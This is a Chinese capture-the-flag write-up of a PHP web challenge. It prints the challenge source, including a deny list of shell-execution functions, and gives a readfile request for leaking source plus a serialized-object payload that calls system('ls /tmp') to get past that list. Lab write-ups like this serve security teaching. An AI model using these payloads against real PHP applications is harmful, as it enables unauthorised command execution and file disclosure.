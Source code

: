 # \[网鼎杯 2020 朱雀组]phpweb

## \[网鼎杯 2020 朱雀组]phpweb

## 考点

* PHP代码执行
* PHP反序列化

## wp

burp抓包发现显示报错信息

![](../../.gitbook/assets/image\_s75G2mQJRECdxqH5RSYjtB.png)

试着去修改POST内容，发现后端使用的是call\_user\_func这个函数

![](../../.gitbook/assets/image\_uSxNKFfmSx2r3FMxcaicbN.png)

POST内容func=readfile\&p=index.php可以获取源码

```php
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```

命令执行ban了很多函数，然后给了一个Test类，表面上是个命令执行，实际上是个反序列化是吧

POST数据`func=unserialize&p=O:4:"Test":2:{s:1:"p";s:7:"ls /tmp";s:4:"func";s:6:"system";}`

flag四处找一下就可以发现，一般就网站根目录，根目录，home目录，tmp目录

最后读取flag

![](../../.gitbook/assets/image\_fcfoJ6nrbqQXseCcNJpcqB.png)

## 小结

1. 多抓包看请求内容
